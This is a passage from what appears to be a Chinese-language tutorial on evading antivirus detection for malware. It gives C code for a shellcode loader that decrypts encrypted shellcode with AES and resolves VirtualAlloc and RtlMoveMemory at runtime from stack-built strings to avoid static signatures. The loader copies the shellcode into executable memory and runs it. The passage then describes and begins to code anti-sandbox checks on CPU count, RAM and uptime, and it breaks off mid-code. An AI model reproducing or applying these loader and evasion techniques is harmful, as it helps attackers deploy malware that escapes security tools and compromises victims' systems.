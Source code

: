 1、就是使用常规的VirtualAlloc开辟shellcode的存储空间，然后使用RtlMoveMemory将解密后的shellcode复制到对应空间；最后将空间开头地址强传函数指针执行即可；

2、我们采用动态加载的形式加载shellcodeloader需要的函数

3、过程中出现的字符串，我们都通过栈来存储；不要出现在数据段

大致代码逻辑如下：

```php
函数定义： 
typedef LPVOID(\*MyVirtualAlloc)(LPVOID lpAddress,SIZE\_T dwSize,DWORD  flAllocationType,DWORD  flProtect);  
typedef LPVOID(\*MyRtlMoveMemory)(VOID UNALIGNED\* Destination,const VOID UNALIGNED\* Source,SIZE\_T  Length);  
​  
​  
​  
代码实现：  
cipher\[\] \= "shellcode加密之后的密文";  
char a\[\] \= { 'k','e','r','n','e','l','3','2','.','d','l','l','\\0'};  
char b\[\] \= { 'V','i','r','t','u','a','l','A','l','l','o','c','\\0' };  
char c\[\] \= { 'N','t','d','l','l','.','d','l','l','\\0' };  
char d\[\] \= { 'R','t','l','M','o','v','e','M','e','m','o','r','y','\\0' };  
unsigned char\* res\_plain \= aes.DecryptCBC(cipher, cipher\_size, key, iv);//解密  
MyVirtualAlloc myVa \= (MyVirtualAlloc)GetProcAddress(GetModuleHandle(a), b);  
MyRtlMoveMemory myMov \= (MyRtlMoveMemory)GetProcAddress(GetModuleHandle(c), d);  
LPVOID mem \= myVa(NULL, cipher\_size + 1, MEM\_COMMIT, PAGE\_EXECUTE\_READWRITE);  
myMov(mem, res\_plain, cipher\_size);  
((void(\*)())mem)();
```

二、动态免杀
------

我们主要去绕过上文提到动态检测的两个点：1、通过虚拟化运行检测：2、真实运行内存检测

### 1、对抗虚拟化运行检查（虚拟沙箱）

**检查沙箱特征不运行：**

笔者在今年hw的时候分析了一些样本，其中又一些做了一些反虚拟化和反沙箱操作，这里我们直接借鉴，然后稍加增补即可；

如这个go写的样本：

![image-20231206182152722.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-2ff800bd0dbceeefc92e6a44290b0babcfecc954.png)

这里我们直接借鉴一波，cpu个数，ram大小，开机时间的话可以看情况使用：

1、检查cpu个数：cpu小于2个，非真实物理机

2、检查ram大小，ram小于2gb，非真实物理机

3、检查开机时间，这个主要是反一些动态分配的沙箱

```php
/\*  
    check cpu  
    反沙箱、虚拟机 分配的cpu个数  
\*/  
bool checkcpu() {  
    SYSTEM\_INFO systemInfo;  
    GetSystemInfo(&systemInfo);  
    DWORD numberOfProcessors \= systemInfo.dwNumberOfProcessors;  
    if (numberOfProcessors < 2)  
        return false;  
    else  
        return true;  
}  
​  
/\*  
```